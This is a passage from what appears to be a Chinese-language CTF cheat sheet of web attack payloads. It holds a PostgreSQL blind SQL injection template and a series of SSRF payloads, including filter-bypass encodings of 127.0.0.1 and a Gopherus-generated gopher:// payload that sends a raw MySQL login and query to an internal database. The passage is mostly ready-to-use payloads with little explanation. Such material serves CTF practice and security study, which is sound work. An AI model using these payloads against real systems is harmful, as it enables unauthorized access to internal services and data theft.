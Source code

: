 ### SQL注入-019
> postgresql bool类型注入
```python
# ?id=-1 and ascii(substring((sql语句),{1}},1)) = {2};
```
## SSRF

### SSRF-001
> `proxy=http://127.0.0.1:80/flag.php`

### SSRF-002
> 回环地址写法，不止`127.0.0.1`
```text
proxy=http://127.1/flag.php
```

### SSRF-003
> 将`127.0.0.1`进行转换，转换为其他进制的数从而绕过检测
> 进制转换结果如下
```text
0177.0.0.1 //八进制
0x7f.0.0.1 //十六进制
2130706433 //十进制
```

### SSRF-004
> 特征
```text
proxy=http://127.0.0.1./flag.php 
```

### SSRF-005
> 特征
```text
proxy=http://127.0.0.1:85/flag.php 
```

### SSRF-006
gopher 协议 攻击 内网 

**mysql**

工具: [gopherus](https://github.com/tarunkant/Gopherus)
```text
proxy=gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%1c%00%00%00%03%75%73%65%20%63%74%66%3b%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%66%6c%61%67%3b%01%00%00%00%01
```

